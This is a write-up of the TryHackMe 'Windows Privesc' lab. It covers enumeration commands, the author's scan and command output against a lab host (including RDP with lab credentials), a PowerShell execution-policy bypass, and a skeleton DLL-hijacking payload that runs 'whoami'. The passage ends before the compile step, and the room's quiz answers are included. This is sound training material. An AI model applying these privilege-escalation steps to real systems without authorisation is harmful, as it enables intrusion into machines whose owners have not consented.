



# Try Hack Me - [Windows Privesc](https://tryhackme.com/room/winprivesc)
##### Learn the fundamentals of Windows 
privilege escalation. From enumeration to exploitation, get hands-on 
with privilege escalation techniques seen in the industry today.

## Task 1 - Introduction 

This room covers fundamental techniques that can be used to elevate privileges in a Windows environment.

During a penetration test or a CTF, you will often find that obtaining an initial foothold on the target system is relatively easy. The challenge often arises during the privilege escalation phase. While some techniques require extensive enumeration of the target system, you may occasionally see a vulnerable kernel (the program that manages the entire operating system - you can find more information on kernels [here](https://en.wikipedia.org/wiki/Kernel_(operating_system)))  or a file containing cleartext passwords. Elevating your privileges may sometimes require you to chain two or more vulnerabilities.

Windows systems have different user privilege levels. Accounts can belong to regular users, who would only have enough privileges to log into the system. Some user levels you will most commonly see are listed below:
* Administrator (local): This is the user with the most privileges.
* Standard (local): These users can access the computer but can only perform limited tasks. Typically these users can not make permanent or essential changes to the system.
* Guest: This account gives access to the system but is not defined as a user.
* Standard (domain): Active Directory allows organizations to manage user accounts. A standard domain account may have local administrator privileges.
* Administrator (domain): Could be considered as the most privileged user. It can edit, create, and delete other users throughout the organization's domain.

You may see some sources refer to "SYSTEM" as a privileged account. It is worth noting that "SYSTEM" is not an account in the proper sense. Windows and its services use the "SYSTEM" account to perform their tasks. Services installed on a Windows target system can use service accounts and will have a certain level of privilege, depending on the service using them. Service accounts do not allow you to log in but can be leveraged in other ways for privilege escalation.

Windows allows the system administrator to group users to facilitate their management. Any user can be a member of the "Administrator" group, giving it administrator rights on the system.

Typically, privilege escalation will require you to follow a methodology similar to the one given below:
1. Enumerate the current user's privileges and resources it can access.
2. If the antivirus software allows it, run an automated enumeration script such as winPEAS or PowerUp.ps1
3. If the initial enumeration and scripts do not uncover an obvious strategy, try a different approach (e.g. manually go over a checklist like the one provided [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md))

Relying on automated scripts, manually enumerating the target system or a hybrid approach, whichever road you take, carefully read the output you see on the screen. The solution to your privilege escalation problem will often be printed there; you need to see it.

Vulnerable machines in this room were configured using a slightly modified version of Sagi Shahar's [LPE setup script](https://github.com/sagishahar/lpeworkshop).
```
No answer needed
> No answer needed
```

## Task 2 - Information Gathering 

To decide on the privilege escalation method that has the most chances to work, you must conduct a thorough enumeration process. While privilege escalation may require a certain degree of trial and error, it is better to limit these. During a penetration test, spraying all known privilege escalation techniques onto the target may result in connection issues or unwanted reboots.

This room will cover different privilege escalation methods that can be used depending on the information gathered during the enumeration process. Some manual techniques that can be used to collect information on the target system are covered here. In the following task, we will cover a few automated tools that will speed up this process and allow you to uncover potential privilege escalation vectors more easily. However, it is essential to remember that automated scripts and tools can miss some important vectors. The ability to perform manual enumeration is an important skill to have in your arsenal.

##### User Enumeration
Other users that can access the target system can reveal interesting information. A user account named “Administrator” can allow you to gain higher privileges, or an account called “test” can have a default or easy to guess password. Listing all users present on the system and looking at how they are configured can provide interesting information.

The following commands will help us enumerate users and their privileges on the target system.
* Current user’s privileges: ```whoami /priv```
* List users: ```net users```
* List details of a user: ```net user username``` (e.g. ```net user Administrator```)
* Other users logged in simultaneously: ```qwinsta``` (the ```query session``` command can be used the same way)
* User groups defined on the system: ```net localgroup```
* List members of a specific group: ```net localgroup groupname``` (e.g. ```net localgroup Administrators```)

##### Collecting system information
The ```systeminfo``` command will return an overview of the target system. On some targets, the amount of data returned by this command can be overwhelming, so you can always grep the output as seen below:

```systeminfo | findstr /B /C:"OS Name" /C:"OS Version"```

In a corporate environment, the computer name can also provide some idea about what the system is used for or who the user is. The ```hostname``` command can be used for this purpose. Please remember that if you have proceeded according to a proper penetration testing methodology, you probably know the hostname at this stage.

##### Searching files
Configuration files of software installed on the target system can sometimes provide us with cleartext passwords. On the other hand, some computer users have the unsafe habit of creating and using files to remember their passwords (e.g. passwords.txt). Finding these files can shorten your path to administrative rights or even easy access to other systems and software on the target network.

The ```findstr``` command can be used to find such files in a format similar to the one given below:

```findstr /si password *.txt```

Command breakdown:
* ```findstr```: Searches for patterns of text in files.
* ```/si```: Searches the current directory and all subdirectories (s), ignores upper case / lower case differences (i)
* ```password```: The command will search for the string “password” in files
* ```*.txt```: The search will cover files that have a .txt extension

The string and file extension can be changed according to your needs and the target environment, but “.txt”, “.xml”, “.ini”, “*.config”, and “.xls” are usually a good place to start.

##### Patch level
Microsoft regularly releases updates and patches for Windows systems. A missing critical patch on the target system can be an easily exploitable ticket to privilege escalation. The command below can be used to list updates installed on the target system.

```wmic qfe get Caption,Description,HotFixID,InstalledOn```

WMIC is a command-line tool on Windows that provides an interface for Windows Management Instrumentation (WMI). WMI is used for management operations on Windows and is a powerful tool worth knowing. WMIC can provide more information than just installed patches. For example, it can be used to look for unquoted service path vulnerabilities we will see in later tasks. WMIC is deprecated in Windows 10, version 21H1 and the 21H1 semi-annual channel release of Windows Server. For newer Windows versions you will need to use the WMI PowerShell cmdlet. More information can be found [here](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/07-working-with-wmi?view=powershell-7.1).

##### Network Connections
According to the most widely accepted methodologies, by this stage of the penetration testing process, you should already have conducted a comprehensive scan on the target system. In some cases, we see that some services run locally on a system and can only be accessible locally. System Administrators that lack basic cyber security knowledge tend to be laxer when setting services that are only accessible over the system (e.g. only responding to requests sent to 127.0.0.1). As we have access to the target system, such services can provide a ticket to a higher privileged user.

The netstat command can be used to list all listening ports on the target system. The ```netstat -ano``` command will return an output similar to the one listed below:

```telnet
                Output of the Netstat Command

C:\Users\user\Desktop>netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       68
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1092
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1348
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1636
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2288
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       2468
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING       780
  TCP    0.0.0.0:49681          0.0.0.0:0              LISTENING       788
```

The command above can be broken down as follows;
* ```-a```: Displays all active connections and listening ports on the target system.
* ```-n```: Prevents name resolution. IP Addresses and ports are displayed with numbers instead of attempting to resolves names using DNS .
* ```-o```: Displays the process ID using each listed connection.

Any port listed as “LISTENING” that was not discovered with the external port scan can present a potential local service.

If you uncover such a service, you can try port forwarding to connect and potentially exploit it. The port forwarding process will allow tunnelling your connection over the target system, allowing you to access ports and services that are unreachable from outside the target system. We will not cover port forwarding as it is beyond the scope of this room.

##### Scheduled Tasks
Some tasks may be scheduled to run at predefined times. If they run with a privileged account (e.g. the System Administrator account) and the executable they run can be modified by the current user you have, an easy path for privilege escalation can be available.

The ```schtasks``` command can be used to query scheduled tasks.

```schtasks /query /fo LIST /v```

##### Drivers
Drivers are additional software installed to allow the operating system to interact with an external device. Printers, web cameras, keyboards, and even USB memory sticks can need drivers to run. While operating system updates are usually made relatively regularly, drivers may not be updated as frequently. Listing available drivers on the target system can also present a privilege escalation vector. The ```driverquery``` command will list drivers installed on the target system. You will need to do some online research about the drivers listed and see if any presents a potential privilege escalation vulnerability.

##### Antivirus
While you will seldom face an antivirus in CTF events, a real-world penetration testing engagement will often require you to deal with some form of antivirus. Various reasons will cause an antivirus to miss your shell access without you trying to evade it. For example, the antivirus software will not detect your presence if you have accessed the target system without using a trojan (e.g. using credentials and connect over RDP). However, to reach a higher privilege level, you may need to run scripts or other tools on the target system. It is, therefore, good practice to check if any antivirus is present.

Typically, you can take two approaches: looking for the antivirus specifically or listing all running services and checking which ones may belong to antivirus software.

The first approach may require some research beforehand to learn more about service names used by the antivirus software. For example, the default antivirus installed on Windows systems, Windows Defender’s service name is windefend. The query below will search for a service named “windefend” and return its current state.

```sc query windefend```

While the second approach will allow you to detect antivirus software without prior knowledge about its service name, the output may be overwhelming.

```sc queryex type=service```

NOTE: The machine attached to this task is the same as the one used in task 4.

##### Enumerate ports
```bash
# Run basic, nmap scan.
sudo nmap -v -sS -sV -sC -Pn 10.10.36.224

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2021-11-29T01:00:14+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: SCHEMA-PC
|   NetBIOS_Domain_Name: SCHEMA-PC
|   NetBIOS_Computer_Name: SCHEMA-PC
|   DNS_Domain_Name: Schema-PC
|   DNS_Computer_Name: Schema-PC
|   Product_Version: 10.0.17763
|_  System_Time: 2021-11-29T01:00:14+00:00
| ssl-cert: Subject: commonName=Schema-PC
| Issuer: commonName=Schema-PC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-10-14T09:05:35
| Not valid after:  2022-04-15T09:05:35
| MD5:   9062 3bea 26e0 80b3 bc32 6671 e855 ef57
|_SHA-1: d7fd 2138 4655 a91c b7f9 8933 9f3d c741 944f f4cd
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


# Scan all ports
sudo nmap -v -sS -Pn -p- 10.10.36.224

PORT      STATE SERVICE
1978/tcp  open  unisql
1979/tcp  open  unisql-java
1980/tcp  open  pearldoc-xact
3389/tcp  open  ms-wbt-server
11561/tcp open  unknown
```

##### Connect with RDP
```bash
xfreerdp /dynamic-resolution +clipboard /u:user /p:Password1 /cert:ignore /v:10.10.36.224 
```

### Basic Enumeration
##### Host
```cmd
hostname
Schema-PC
```
##### Privileges
```cmd
whoami /priv

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
##### Users
```cmd
net users

-------------------------------------------------------------------------------
admin                    Administrator            DefaultAccount
Guest                    THM-17213                user
WDAGUtilityAccount
```

##### Sessions
```cmd
qwinsta

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console                                     1  Conn
>rdp-tcp#16        user                      2  Active
 rdp-tcp                                 65536  Listen
```

##### OS Info
```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

OS Name:                   Microsoft Windows Server 2019 Datacenter
OS Version:                10.0.17763 N/A Build 17763
```

##### Check for text files.
```cmd
findstr /si password *.txt
<too long>
```

##### Check patches.
```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn

Caption                                     Description      HotFixID   InstalledOn
http://support.microsoft.com/?kbid=4601555  Update           KB4601555  3/11/2021
http://support.microsoft.com/?kbid=4470502  Update           KB4470502  12/12/2018
http://support.microsoft.com/?kbid=4470788  Security Update  KB4470788  12/12/2018
http://support.microsoft.com/?kbid=4480056  Update           KB4480056  1/9/2019
http://support.microsoft.com/?kbid=4486153  Update           KB4486153  3/11/2021
http://support.microsoft.com/?kbid=4493510  Security Update  KB4493510  4/21/2019
http://support.microsoft.com/?kbid=4499728  Security Update  KB4499728  5/15/2019
http://support.microsoft.com/?kbid=4504369  Security Update  KB4504369  6/12/2019
http://support.microsoft.com/?kbid=4512577  Security Update  KB4512577  9/11/2019
http://support.microsoft.com/?kbid=4512937  Security Update  KB4512937  9/6/2019
http://support.microsoft.com/?kbid=4521862  Security Update  KB4521862  10/9/2019
http://support.microsoft.com/?kbid=4523204  Security Update  KB4523204  11/13/2019
http://support.microsoft.com/?kbid=4535680  Security Update  KB4535680  1/13/2021
http://support.microsoft.com/?kbid=4539571  Security Update  KB4539571  3/18/2020
http://support.microsoft.com/?kbid=4549947  Security Update  KB4549947  4/15/2020
http://support.microsoft.com/?kbid=4558997  Security Update  KB4558997  7/15/2020
http://support.microsoft.com/?kbid=4562562  Security Update  KB4562562  6/10/2020
http://support.microsoft.com/?kbid=4566424  Security Update  KB4566424  8/12/2020
http://support.microsoft.com/?kbid=4570332  Security Update  KB4570332  9/9/2020
https://support.microsoft.com/help/4577586  Update           KB4577586  3/11/2021
https://support.microsoft.com/help/4577667  Security Update  KB4577667  10/14/2020
https://support.microsoft.com/help/4587735  Security Update  KB4587735  11/11/2020
https://support.microsoft.com/help/4589208  Update           KB4589208  3/11/2021
https://support.microsoft.com/help/4598480  Security Update  KB4598480  1/13/2021
https://support.microsoft.com/help/4601393  Security Update  KB4601393  2/10/2021
https://support.microsoft.com/help/5000859  Security Update  KB5000859  3/11/2021
https://support.microsoft.com/help/5001568  Update           KB5001568  3/17/2021
```

##### Active Ports/Services
```cmd
netstat -ano

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       8
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:1978           0.0.0.0:0              LISTENING       3572
  TCP    0.0.0.0:1979           0.0.0.0:0              LISTENING       3572
  TCP    0.0.0.0:1980           0.0.0.0:0              LISTENING       3572
  TCP    0.0.0.0:2560           0.0.0.0:0              LISTENING       2928
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1052
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       700
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1300
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1664
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2356
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       2576
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       812
  TCP    0.0.0.0:49674          0.0.0.0:0              LISTENING       788
  TCP    10.10.36.224:139       0.0.0.0:0              LISTENING       4
  TCP    10.10.36.224:3389      10.13.25.242:48982     ESTABLISHED     1052
  TCP    10.10.36.224:50090     52.86.42.193:443       SYN_SENT        2908
  TCP    127.0.0.1:44430        0.0.0.0:0              LISTENING       2908
  TCP    [::]:135               [::]:0                 LISTENING       8
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:3389              [::]:0                 LISTENING       1052
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       700
  TCP    [::]:49665             [::]:0                 LISTENING       1300
  TCP    [::]:49666             [::]:0                 LISTENING       1664
  TCP    [::]:49667             [::]:0                 LISTENING       2356
  TCP    [::]:49668             [::]:0                 LISTENING       2576
  TCP    [::]:49669             [::]:0                 LISTENING       812
  TCP    [::]:49674             [::]:0                 LISTENING       788
  UDP    0.0.0.0:123            *:*                                    2744
  UDP    0.0.0.0:1978           *:*                                    3572
  UDP    0.0.0.0:3389           *:*                                    1052
  UDP    0.0.0.0:5353           *:*                                    1544
  UDP    0.0.0.0:5355           *:*                                    1544
  UDP    10.10.36.224:137       *:*                                    4
  UDP    10.10.36.224:138       *:*                                    4
  UDP    10.10.36.224:63845     *:*                                    2928
  UDP    127.0.0.1:11978        *:*                                    3540
  UDP    127.0.0.1:62692        *:*                                    3008
  UDP    [::]:123               *:*                                    2744
  UDP    [::]:3389              *:*                                    1052
  UDP    [::]:5353              *:*                                    1544
  UDP    [::]:5355              *:*                                    1544
```

##### Scheduled Tasks
```bash
schtasks /query /fo LIST /v
<too long>
```

##### Drivers
```bash
driverquery
<too long>
```

##### Windows Defender
```bash
sc query windefend

SERVICE_NAME: windefend
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

```
Launch the target machine.
> No answer needed
```

```
List users on the target system. One of them resembles a flag.
> THM-17213
```

```
What is the OS version of the target machine?
> 10.0.17763 N/A Build 17763
```

```
When was security update KB4562562 installed?
> 6/10/2020
```

```
What is the state of Windows Defender?
> STOPPED
```

## Task 3 - Tools of the trade 

Several scripts exist to conduct system enumeration in ways similar to the ones seen in the previous task. These tools can shorten the enumeration process time and uncover different potential privilege escalation vectors. However, please remember that automated tools can sometimes miss privilege escalation. While real penetration testing engagements may have targets where no known privilege escalation technique works, in CTFs, if the initial result does not return anything useful, try a different approach.

Below are a few tools commonly used to identify privilege escalation vectors.

##### WinPEAS
WinPEAS is a script developed to enumerate the target system to uncover privilege escalation paths. You can find more information about winPEAS and download either the precompiled executable or a .bat script. Please note, Windows Defender detects and disables winPEAS. WinPEAS will run commands similar to the ones listed in the previous task and print their output. The output from winPEAS can be lengthy and sometimes difficult to read. This is why it would be good practice to always redirect the output to a file, as shown below:

```winpeas.exe > outputfile.txt```

WinPEAS can be downloaded [here](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

##### PowerUp

PowerUp is a PowerShell script that searches common privilege escalation on the target system. You can run it with the ```Invoke-AllChecks``` option that will perform all possible checks on the target system or use it to conduct specific checks (e.g. the ```Get-UnquotedService``` option to only look for potential unquoted service path vulnerabilities).

PowerUp can be downloaded [here](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc).

**Reminder:** To run PowerUp on the target system, you may need to bypass the execution policy restrictions. To achieve this, you can launch PowerShell using the command below.

```telnet
                Running PowerUp.ps1 on the Target System

C:\Users\user\Desktop>powershell.exe -nop -exec bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\user\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\user\Desktop> Invoke-AllChecks

[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...
```

##### Windows Exploit Suggester
Some exploit suggesting scripts (e.g. winPEAS) will require you to upload them to the target system and run them there. This may cause antivirus software to detect and delete them. To avoid making unnecessary noise that can attract attention, you may prefer to use Windows Exploit Suggester, which will run on your attacking machine (e.g. Kali or TryHackMe AttackBox).

Windows Exploit Suggester is a Python script that can be found and downloaded [here](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

Once installed, and before you use it, type the ```windows-exploit-suggester.py –update``` command to update the database. The script will refer to the database it creates to check for missing patches that can result in a vulnerability you can use to elevate your privileges on the target system.

To use the script, you will need to run the ```systeminfo``` command on the target system. Do not forget to direct the output to a .txt file you will need to move to your attacking machine.

Once this is done, windows-exploit-suggester.py can be run as follows;

```windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt```

A newer version of Windows Exploit Suggester is available [here](https://github.com/bitsadmin/wesng). Depending on the version of the target system, using the newer version could be more efficient.

##### Metasploit

If you already have a Meterpreter shell on the target system, you can use the ```multi/recon/local_exploit_suggester``` module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.

NOTE: These tools are available on AttackBox. Download them only if you are connecting over VPN. Tools you will most commonly use during privilege escalation are included in the zip file attached to this task. Some of these can be identified by antivirus software as malicious and be deleted when moved to your host computer.
```
No answer needed
> No answer needed
```

## Task 4 - Vulnerable Software 

Software installed on the target system can present various privilege escalation opportunities. As with drivers, organizations and users may not update them as often as they update the operating system. You can use the ```wmic``` tool seen previously to list software installed on the target system and its versions. The command below will dump information it can gather on installed software.

```wmic product```

This output is not easy to read, and depending on the screen size over which you have access to the target system; it can seem impossible to find anything useful. You could filter the output to obtain a cleaner output with the command below.

```wmic product get name,version,vendor```


Be careful; due to some backward compatibility issues (e.g. software written for 32 bits systems running on 64 bits), the ```wmic product``` command may not return all installed programs. The target machine attached to this task will provide you with some hints. You will see shortcuts for installed software, and you will notice they do not appear in the results of the ```wmic product``` command. Therefore, It is worth checking running services using the command below to have a better understanding of the target system.

```wmic service list brief```

As the output of this command can be overwhelming, you can grep the output for running services by adding a ```findstr``` command as shown below.

```wmic service list brief | findstr  "Running"```

If you need more information on any service, you can simply use the ```sc qc``` command as seen below.

```telnet
                sc qc for more information on a service

C:\Users\user>sc qc RemoteMouseService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: RemoteMouseService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Remote Mouse\RemoteMouseService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : RemoteMouseService
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\user>
```

At this point, you have a few options to find any possible privilege escalation exploit that can be used against software installed on the target system.
1. Searchsploit
2. Metasploit
3. Exploit-DB
4. Github
5. Google

Be careful using exploit code that is not verified or is part of the Metasploit framework, as it can contain malicious code that could affect your attacking system. Be sure you understand the exploit code well, go over any obfuscated parts, and have a good understanding of all commands the exploit code will attempt to run.

##### Connect with RDP
```bash
xfreerdp /dynamic-resolution +clipboard /u:user /p:Password1 /cert:ignore /v:10.10.36.224 
```

##### Get Fitbit
```bash
wmic product get name, version | findstr "Fitbit"

Fitbit Connect      2.0.1.6782
```

##### Get Foxit
```bash
wmic product get name, version | findstr "FoxitReader"

# Does not come up, perhaps a 32-bit app running on a 64-bit box.
# Those apps may not appear.
# Open Foxit and get the version.
9.0.1.1049
```


```
What version of a Fitbit application can you see installed?
> Answer format: 2.0.1.6782
```

```
What kind of vulnerability seems to affect the Fitbit application?
> Unquoted Service Path
```

```
What version of FoxitReader is installed on the target  system?
> 9.0.1.1049
```

## Task 5 - DLL Hijacking 

DLL hijacking is an effective technique that can allow you to inject code into an application. Some Windows executables will use Dynamic Link Libraries (DLLs) when running. We think of DLLs as files that store additional functions that support the main function of the .exe file. In a way, DLLs are executable files, but they can not be run directly like an exe file. They should be launched by other applications (or exe in most cases). If we can switch the legitimate DLL file with a specially crafted DLL file, our code will be run by the application. DLL hijacking requires an application (typically an exe file) that either has a missing DLL file, or where the search order can be used to insert the malicious DLL file.

##### Introduction to DLL Files

Windows uses many DLL files, as you can see simply by visiting the C:\Windows\System32 folder in any Windows. A single DLL file can be used by many different exe files, or they can be dedicated to a single executable. You may have noticed these when installing an application on Windows. The screenshot below shows the contents of the 7-Zip file archiver folder in the installation path, under C:\Program Files\.

You will notice some file types are “application” while others (look for the .dll extension) are described as “application extension”. So when the application runs, it will “call” on these other files for different purposes. Any application can have its own DLL files but can also call on Windows DLL files.

Another point to keep in mind is that a missing DLL will not always result in an error. When launched, the application will look for DLL files it needs and, while a missing critical DLL file can stop the application from running, lesser important ones may not result in visible errors.

A DLL Hijacking scenario consists of replacing a legitimate DLL file with a malicious DLL file that will be called by the executable and run. By this point, you may have an idea about the specific conditions required for a successful DLL hijacking attack. These can be summarized as;
1. An application that uses one or more DLL files.
2. A way to manipulate these DLL files.

Manipulating DLL files could mean replacing an existing file or creating a file in the location where the application is looking for it. To have a better idea of this, we need to know where applications look for DLL files. At this point, we will look to the DLL search order. Microsoft has a document on the subject located here .

In summary, for standard desktop applications, Windows will follow one of the orders listed below depending on if the SafeDllSearchMode is enabled or not.

If **SafeDllSearchMode** is enabled, the search order is as follows:
1. The directory from which the application loaded.
2. The system directory. Use the [GetSystemDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya) function to get the path of this directory.
3. The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
4. The Windows directory. Use the [GetWindowsDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya) function to get the path of this directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.

If **SafeDllSearchMode** is disabled, the search order is as follows:
1. The directory from which the application loaded.
2. The current directory.
3. The system directory. Use the [GetSystemDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya) function to get the path of this directory.
4. The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
5. The Windows directory. Use the [GetWindowsDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya) function to get the path of this directory.
6. The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.

For example, if our application.exe requires the app.dll file to run, it will look for the app.dll file first in the directory from which it is launched. If this does not return any match for app.dll, the search will continue in the above-specified order. If the user privileges we have on the system allow us to write to any folder in the search order, we can have a possible DLL hijacking vulnerability. An important note is that the application should not be able to find the legitimate DLL before our modified DLL.

This is the final element needed for a successful DLL Hijacking attack.

##### Finding DLL Hijacking Vulnerabilities

Identifying DLL Hijacking vulnerabilities will require loading additional tools or scripts to the target system. Another approach could be to install the same application on a test system. However, this may not give accurate results due to version differences or target system configuration.

The tool you can use to find potential DLL hijacking vulnerabilities is Process Monitor (ProcMon). As ProcMon will require administrative privileges to work, this is not a vulnerability you can uncover on the target system. If you wish to check any software for potential DLL hijacking vulnerabilities, you will need to install the software on your test environment and conduct research there.

The screenshot below shows you what to look for in the ProcMon interface. You will see some entries resulted in “NAME NOT FOUND”.


The last two lines in the screenshot above show that dllhijackservice.exe is trying to launch hijackme.dll in the “C:\Temp” folder but can not find this file. This is a typical case of a missing DLL file.

The second step of the attack will consist of us creating this file in that specific location. It is important that we have write permissions for any folder we wish to use for DLL hijacking. In this case, the location is the Temp folder for which almost all users have write permissions; if this was a different folder, we would need to check the permissions.

##### Creating the malicious DLL file

As mentioned earlier, DLL files are executable files. They will be run by the executable file, and the commands they contain will be executed. The DLL file we will create could be a reverse shell or an operating system command depending on what we want to achieve on the target system or based on configuration limitations. The example below is a skeleton DLL file you can adapt according to your needs.

```c
                Skeleton Code for the Malicious DLL

           
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

Leaving aside the boilerplate parts, you can see this file will execute the ```whoami``` command (```cmd.exe /k whoami```) and save the output in a file called "dll.txt".

The mingw compiler can be used to generate the DLL file with the command given below:

